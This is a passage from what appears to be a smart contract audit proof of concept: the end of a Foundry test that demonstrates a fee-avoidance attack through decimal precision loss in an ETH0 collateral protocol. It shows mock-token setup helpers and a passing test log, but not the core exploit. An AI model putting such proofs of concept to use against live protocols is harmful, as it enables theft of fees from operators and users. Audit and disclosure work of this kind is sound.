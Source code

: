 ```solidity
        uint256 fullExploitFeeAvoidance = (totalFeesAvoided * numRedemptions) / 10;
        console.log("Projected full exploit fee avoidance:", fullExploitFeeAvoidance / 1e18, "ETH0");
    }
    
    /**
     * @dev Helper function to setup token with specific decimals
     */
    function _setupTokenWithDecimals(uint8 decimals, uint256 amount) 
        internal returns (RwaMock, Eth0) 
    {
        string memory symbol = string(abi.encodePacked("TOK", uint2str(decimals)));
        rwaFactory.createRwa("Test Token", symbol, decimals);
        address token = rwaFactory.getRwaFromSymbol(symbol);
        
        _whitelistRWA(token, alice);
        _whitelistRWA(token, address(daoCollateral));
        _whitelistRWA(token, treasury);
        _linkSTBCToRwa(RwaMock(token));
        
        whitelistPublisher(address(token), address(stbcToken));
        _setupBucket(token, address(stbcToken));
        _setOraclePrice(token, 10 ** decimals);
        
        RwaMock(token).mint(alice, amount);
        vm.prank(alice);
        RwaMock(token).approve(address(daoCollateral), amount);
        
        return (RwaMock(token), stbcToken);
    }
    
    /**
     * @dev Helper to convert uint to string
     */
    function uint2str(uint256 _i) internal pure returns (string memory) {
        if (_i == 0) {
            return "0";
        }
        uint256 j = _i;
        uint256 len;
        while (j != 0) {
            len++;
            j /= 10;
        }
        bytes memory bstr = new bytes(len);
        uint256 k = len;
        while (_i != 0) {
            k = k - 1;
            uint8 temp = (48 + uint8(_i - _i / 10 * 10));
            bytes1 b1 = bytes1(temp);
            bstr[k] = b1;
            _i /= 10;
        }
        return string(bstr);
    }
}
```
PoC Results:
```solidity
Ran 1 test for test/DecimalPrecisionAttackTest.t.sol:DecimalPrecisionAttackTest
[PASS] testDecimalPrecisionLossFeeAttack() (gas: 8867260)
Logs:
  === DECIMAL PRECISION LOSS FEE ATTACK ===
```